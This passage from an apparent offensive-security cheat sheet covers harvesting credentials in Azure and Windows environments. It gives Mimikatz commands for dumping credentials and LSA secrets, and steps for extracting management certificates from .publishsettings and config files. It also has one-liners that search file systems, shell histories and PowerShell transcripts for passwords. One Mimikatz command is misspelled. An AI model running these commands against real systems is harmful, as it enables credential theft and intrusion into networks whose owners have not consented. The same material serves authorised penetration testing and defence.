 ### Mimikatz
```
Invoke-Mimikayz -Dumpcreds
```

#### Dump service account passwords
```
Invoke-Mimikatz -Command '"token::elevate" "lsadump::secrets"'
```

### Visual Studio Code
- Azure Cloud Service Packages (.cspkg)
- Deployment files created by Visual Studio.
- Possible other Azure services integration (SQL, storage, etc.)
- Through cspkg zip files for creds/certs.
- Search Visual Studio Public Directory ```<cloud project directory>\bin\debug\publish```

### Publish settings in files
- Look for file ```.publishsettings```
- Can contain a Base64 encoded Management Certificate or cleartext credentials
- Save "ManagementCertificate" section into a new .pfx file
- Search the user's Downloads directory and VS projects.

### Storage explorers
- Windows Credential Manager stores these credentials.
- Azure Storage Explorer for example has a built-in “Developer Tools” function that you can use to set breakpoints while loading the credentials allowing you to view them while unencrypted.

### Web config and App config files
-  ```Web.config``` and ```app.config``` files might contain creds or access tokens.
- Look for management cert and extract to ```.pfx``` like publishsettings files
```
sudo find / -name web.config 2>/dev/null
Get-ChildItem -Path C:\ -Filter app.config -Recurse -ErrorAction SilentlyContinue -Force
```

### Internal repositories
- Find internal repos (scan for port 80, 443 or Query AD and look for subdomains or hostnames as git, code, repo, gitlab, bitbucket etc)
- Tools for finding secrets
  - Gitleaks https://github.com/zricethezav/gitleaks
  - Gitrob https://github.com/michenriksen/gitrob
  - Truffle hog https://github.com/dxa4481/truffleHog

### Command history
- Look through command history
- `~/.bash_history` or `%USERPROFILE%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
```
sudo find / -name .bash_history 2>/dev/null
Get-ChildItem -Path C:\ -Filter *ConsoleHost_history.txt* -Recurse -ErrorAction SilentlyContinue -Force
cat <FILE> | select-string password
cat <FILE> | select-string secure

Get-Childitem -Path C:\* -Force -Include *transcript* -Recurse -ErrorAction SilentlyContinue
type C:\Transcripts\20210422\PowerShell_transcript.DESKTOP-M7C1AFM.6sZJrDuN.20210422230739.txt
```
